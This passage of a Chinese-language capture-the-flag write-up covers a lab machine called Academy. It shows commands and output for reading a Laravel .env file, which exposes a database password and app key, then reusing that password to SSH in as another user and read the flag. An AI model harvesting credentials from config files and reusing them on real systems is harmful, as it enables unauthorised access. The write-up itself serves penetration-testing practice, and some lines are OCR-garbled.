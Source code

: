 ## **www-data→cry 011t 3(存储的凭证)**

进一步的枚举发现了包含密码`mySup3rP4s5w0rd!!`的文件`.env`。

```
www-data@academy:/var/www/html/academy$ ls -latotal 280
drwxr-xr-x 12 www-data www-data   4096 Aug 13 12:42 .
drwxr-xr-x  4 root     root       4096 Aug 13 12:36 ..
-rw-r--r--  1 www-data www-data    706 Aug 13 12:42 .env
-rw-r--r--  1 www-data www-data    651 Feb  7  2018 .env.example
-rw-r--r--  1 www-data www-data    111 Feb  7  2018 .gitattributes
-rw-r--r--  1 www-data www-data    155 Feb  7  2018 .gitignore
drwxr-xr-x  6 www-data www-data   4096 Feb  7  2018 app
-rwxr-xr-x  1 www-data www-data   1686 Feb  7  2018 artisan
drwxr-xr-x  3 www-data www-data   4096 Feb  7  2018 bootstrap...snip...www-data@academy:/var/www/html/academy$ cat .envAPP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=[http://localhost](http://localhost)LOG_CHANNEL=stackDB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
**DB_PASSWORD=mySup3rP4s5w0rd!!**...snip...
```

## user.txt

密码对用户帐户`cry0l1t3`有效，我能够以这个用户的身份 SSH 到机器中并读取 user.txt 标志。

```
ssh cry0l1t3@10.10.10.215
cry0l1t3@10.10.10.215's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)System information as of Wed 11 Nov 2020 04:43:35 AM UTCSystem load:             0.0
  Usage of /:              44.4% of 15.68GB
  Memory usage:            15%
  Swap usage:              0%
  Processes:               176
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.215
  IPv6 address for ens160: dead:beef::250:56ff:feb9:ca60* Introducing self-healing high availability clustering for MicroK8s!
   Super simple, hardened and opinionated Kubernetes for production.[https://microk8s.io/high-availability](https://microk8s.io/high-availability)0 updates can be installed immediately.
0 of these updates are security updates.Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
**$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
$ ls
user.txt
$ cat user.txt  
b6f4**REDACTED**1bed**
```
